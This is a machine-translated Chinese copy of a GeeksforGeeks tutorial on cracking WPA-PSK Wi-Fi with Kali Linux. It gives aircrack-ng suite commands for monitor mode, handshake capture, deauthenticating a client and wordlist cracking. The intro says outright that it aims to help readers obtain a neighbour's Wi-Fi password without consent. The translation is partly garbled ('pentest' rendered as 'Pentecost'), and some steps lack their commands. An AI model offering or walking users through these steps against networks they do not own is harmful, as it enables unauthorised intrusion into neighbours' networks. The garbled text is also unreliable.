







# 无线五旬节基础

> 原文:[https://www.geeksforgeeks.org/wireless-pentest-basic/](https://www.geeksforgeeks.org/wireless-pentest-basic/)

**无线笔测试:**
他们中的许多人想使用 wi-fi，他们中的大多数试图黑 wi-fi 并在没有邻居确认的情况下获得密码，但是他们没有找到密码。所以在这个教程中我会帮你找到邻居的 wi-fi 密码的密码。我相信这将是一个疯狂的教程，所有人在了解之后都会喜欢。

**无线网卡:**
在这种情况下，如果你使用的是 Kali Linux 作为 VM VirtualBox 中的虚拟机，可以使用外置无线适配器。

**WPA PSK 漏洞穿越:**
这里我们将逐步讨论 WPA PSK 漏洞穿越，如下所示。

**步骤-1 :**
检查无线网卡。



**步骤 2 :**
运行 airmon-ng 检查并清除可能干扰操作的进程。



**步骤 3 :**
将网络适配器置于监控模式。



**步骤-4 :**
现在，检查可用的无线网络。

**命令–**

```
airodump-ng wlan0mon  
```

**输出:**



**第 5 步:**
运行下面的命令捕获流量。工作站和数据传输列表如下。

```
root@kali:~# airodump-ng -c 2 --bssid 50:D4:F7:3C:3A:76 -w capturedfile wlan0mon  
```



**步骤-6 :**
运行此命令断开客户端与网络的连接，并强制其重新连接。

```
root@kali:~# aireplay-ng -0 10 -a 50:D4:F7:3C:3A:76 -c 08:D8:33:F2:3B:50 wlan0mon 
```



**Step-7 :**
现在应该有一个截图文件了。目录中的 cap。

**步骤-8 :**
运行下面的命令从文件中提取密码。

```
root@kali:~# aircrack-ng -w mywordlist.txt -b 50:D4:F7:3C:3A:76 capturedfile-02.cap 
```

